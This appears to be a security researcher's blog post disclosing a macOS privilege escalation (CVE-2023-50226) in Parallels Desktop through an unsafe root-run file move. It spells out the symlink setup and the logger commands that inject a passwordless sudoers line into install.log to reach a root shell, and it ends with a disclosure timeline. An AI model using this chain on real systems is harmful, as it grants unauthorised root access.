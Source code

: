 ```yaml
---
layout: post
title:  "Turning a boring file move into a privilege escalation on Mac"
date:   2023-10-28 00:00:00 +0000
tags: parallels
---
```


While poking around [Parallels Desktop](https://www.parallels.com/products/desktop/){:target="_blank"} I found a script which is invoked by a setuid-root binary, which has the following snippet:
```bash
local prl_dir="${usr_home}/Library/Parallels"
if [ -e "$prl_dir" -a ! -d "$prl_dir" ]; then
  log warning "'${prl_dir}' is not a directory. Renaming it."
  mv -f "$prl_dir"{,~}
  continue
fi
```
Here `${usr_home}` represents the home directory of the user for which Parallels Desktop is installed. The code says
if `~/Library/Parallels` exists and is not a directory then move it to `~/Library/Parallels~`, presumably to back it up before creating this path as a directory. 

However, given this is our home directory, we (a low privileged user) can create `~/Library/Parallels~` beforehand, and make it a symlink to another directory, for example. This would mean the code actually moves `~/Library/Parallels` _into_ the directory pointed to by the symlink. Additionally, we can fully control the `~/Library/Parallels` file, it can have whatever content we want, or it could even be a symlink to some other file.

Great, so now we can move a file of controlled content, or a symlink, into an arbitrary directory. How can we use this to escalate our privileges to root?

Digging around the filesystem, some ways which came to mind:
- `/etc/periodic/{daily,monthly,weekly}`
  - Files must be owned by root, which our file isn't
  - Besides, I don't want to wait days for this privesc
- `/etc/pam.d/` 
  - Files must be owned by root, which our file isn't
  - Filenames are important, we can't use the `Parallels` filename for this
- `/etc/ssh/sshd_config.d/`
  - Could use something like `AuthorizedKeysCommand` and `AuthorizedKeysCommandUser` to execute a command as root
  - Would need a reboot or some other way to force sshd to reload its config
  - sshd would need to be running in the first place, which it's not by default
- `/etc/sudoers.d/`
  - Files must be owned by root, which our file isn't
  - Files must not be world writeable

Of these, the hurdles which seemed easiest to overcome were those of `/etc/sudoers.d`. So I started digging for files which are owned by root, are not world-writeable, and we can partially control. With some searching I found `/var/log/install.log`.
```bash
-rw-r--r--@ 1 root  admin  637109 23 Jun 12:00 /var/log/install.log
```
It turns out we can write to this log using the `logger` utility, specifying the `install.error` priority. Like so:
```bash
logger -p install.error "Hello, World!"
```
![Log file entry](/assets/file-move-privesc-mac/install_log1.png)

Even better, we can get our content onto a new line using a carriage return, which is replaced with a newline, like so:
```bash
logger -p install.error $(echo -e "\rHello, World!")
```
![Log file newline injection](/assets/file-move-privesc-mac/install_log2.png)

We can use this to insert a line of sudo config:
```bash
logger -p install.error $(echo -e "\r$USER ALL=(ALL) NOPASSWD: ALL")
```
![Log file sudo config](/assets/file-move-privesc-mac/install_log3.png)

So now we have a log file with a bunch of invalid sudo config lines (i.e. normal log entries), with one line of valid sudo config, which says that our current user can use sudo with no password, allowing us to escalate our privileges.

Now we can make `~/Library/Parallels` a symlink pointing to `/var/log/install.log` and `~/Library/Parallels~` a symlink pointing to `/etc/sudoers.d/`. When we invoke the vulnerable script, which runs as root, it will move our symlink, pointing to the log file, into `/etc/sudoers.d/`.

After that we can run `sudo su`, which will follow the symlink, parse the log file, spitting out pages of errors about the invalid syntax of the log entries in the process (but kindly continuing processing) until it reaches a line of valid syntax which we've injected, and eventually we'll be dropped into a root shell.

Hopefully other people find this trick useful, beyond just Parallels. You can find the code for this exploit [on my GitHub](https://github.com/kn32/parallels-file-move-privesc){:target="_blank"}.

<video width="100%" controls autoplay playsinline loop>
  <source src="/assets/file-move-privesc-mac/file_move_poc.mp4" type="video/mp4">
</video>

## Timeline
- **2023-05-19** - ZDI submission, assigned ZDI-CAN-21227
- **2023-06-21** - reported to vendor
- **2023-07-06** - fix released in version 18.3.2
- **2023-12-19** - public release of advisory, CVE-2023-50226